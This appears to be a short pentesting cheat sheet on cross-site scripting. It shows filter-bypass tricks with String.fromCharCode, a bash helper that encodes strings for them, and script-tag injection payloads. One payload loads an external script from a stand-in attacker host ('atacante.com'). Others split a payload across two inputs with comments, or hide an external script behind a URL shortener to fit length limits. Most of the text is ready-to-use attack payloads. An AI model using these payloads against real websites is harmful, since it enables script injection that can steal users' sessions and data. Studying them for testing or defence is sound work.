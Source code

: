 
**String.fromCharCode() function**
A function in javascript that can be usefull to bypass quotes restrictions and introduce strings
Copy the next in the javascript console as example:
```
#This echo "Hola Mundo!"
String.fromCharCode(72, 111, 108, 97, 32, 77, 117, 110, 100, 111, 33)
String.fromCharCode(72,111,108,97,32,113,117,101,32,116,97,108)##Hola que tal
```
To inject this you need to add it into script tags
```
<script>alert(String.fromCharCode(72,111,108,97,32,113,117,101,32,116,97,108))</script>
```

How can we convert a text in ASCII character and revers with:
```bash
#Main Function
#foo=$1
Convert2NumASCII() {
	##To use just Convert2NumASCII "a sentence here"
	foo=$1
	ordinaries=""
	for (( i=0; i<${#foo}; i++ )); do
		char=$(echo "${foo:$i:1}")
		num=$(LC_CTYPE=C printf '%d' "'$char")
		ordinaries+=$num
		ordinaries+=","
		#echo $ordinaries
	done
	#echo $ordinaries
	#ordinaries=$ordinaries | tr '\n' ', '
	#echo $ordinaries2
	echo "String.fromCharCode("${ordinaries::-1}")"
	#echo $ordinaries3
	#String.fromCharCode

}

Convert2NumASCII "Hola que tal"
```

**Use a external file**
```
<script src=http://www.atacante.com/xss.js></script>
```

**Limit in the number of character**
In case we have several inputs we could try to combined these to add more content. For that you can just comment everything in the middle between bout contents. For example:
```
Input1: <scrip/*
Input2: */>alert(1)</script>
```

Or in case we want add a file.js we can attach an url using tinyurl.com or is.gd to reduce the lenght.
`<script src=http://is.gd/owYT></script>`
